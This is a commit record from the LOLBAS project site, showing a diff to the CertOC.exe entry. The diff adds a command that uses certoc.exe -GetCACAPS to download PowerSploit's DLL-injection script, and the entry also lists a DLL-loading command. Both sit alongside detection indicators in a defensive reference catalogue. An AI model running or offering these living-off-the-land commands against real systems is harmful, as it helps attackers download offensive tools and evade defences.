

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Certoc.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1005 px from its top, so only the background shows below that.

Commit message:
Applying update LOLBAS-Project/LOLBAS@97f5042a586880b13be9b3c097d9271fe798b85d

```diff
--- a/_lolbas/Binaries/Certoc.md
+++ b/_lolbas/Binaries/Certoc.md
@@ -2,7 +2,7 @@
 Name: CertOC.exe
 Description: Used for installing certificates
 Author: 'Ensar Samil'
-Created: '2021-10-07'
+Created: 2021-10-07
 Commands:
   - Command: certoc.exe -LoadDLL "C:\test\calc.dll"
     Description: Loads the target DLL file
@@ -10,7 +10,15 @@ Commands:
     Category: Execute
     Privileges: User
     MitreID: T1218
-    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
+    MitreLink: https://attack.mitre.org/techniques/T1218/
+    OperatingSystem: Windows Server 2022
+  - Command: certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
+    Description: Downloads text formatted files
+    Usecase: Download scripts, webshells etc.
+    Category: Download
+    Privileges: User
+    MitreID: T1105
+    MitreLink: https://attack.mitre.org/techniques/T1105/
     OperatingSystem: Windows Server 2022
 Full_Path:
   - Path: c:\windows\system32\certoc.exe
@@ -20,8 +28,10 @@ Code_Sample:
 Detection:
   - IOC: Process creation with given parameter
   - IOC: Unsigned DLL load via certoc.exe
+  - IOC: Network connection via certoc.exe
 Resources:
   - Link: https://twitter.com/sblmsrsn/status/1445758411803480072?s=20
+  - Link: https://twitter.com/sblmsrsn/status/1452941226198671363?s=20
 Acknowledgement:
   - Person: Ensar Samil
     Handle: '@sblmsrsn'
```
